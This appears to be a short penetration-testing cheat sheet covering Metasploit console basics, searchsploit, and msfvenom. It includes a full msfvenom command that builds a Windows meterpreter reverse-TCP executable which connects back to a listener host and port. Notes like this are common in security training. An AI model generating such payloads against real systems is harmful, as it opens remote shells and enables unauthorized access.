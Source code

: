 ## Basic usage
- Run the command `msfconsole` to open Metasploit.
- Use `search <vulnerability>` to find different exploits.
- Choose the one you want to use with `use <number>`.
- Use `show options` to select the payload.
- Choose the payload with `set payload <number>`.
- Set the necessary parameters seen with `show options` using `set <parameter> <value>`. Only the ones marked with **yes*** are mandatory.
- To execute, use `run`.
# searchsploit
**SearchSploit** is used to search and locate known exploits and vulnerabilities in a wide variety of software and systems. It utilizes the Exploit Database, which contains an extensive collection of exploits, shellcodes, and security-related references.
```bash
searchsploit <whatever>
```

# msfvenom
**msfvenom** is primarily used for generating payloads, which are pieces of code that can be delivered to a target system to exploit vulnerabilities or gain unauthorized access.

```bash
#target_info = java, php, python, windows, ubuntu, etc
msfvenom -l payloads | grep <target_info>
msfvenom -p PAYLOAD [OPTIONS] -f FORMAT [OTHER_OPTIONS]
```
- Example:
```bash
#-f = file extension
#-o = file name
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o payload.exe
#if you want to know the payload options use:
msfvenom -p <payload> --list-options
```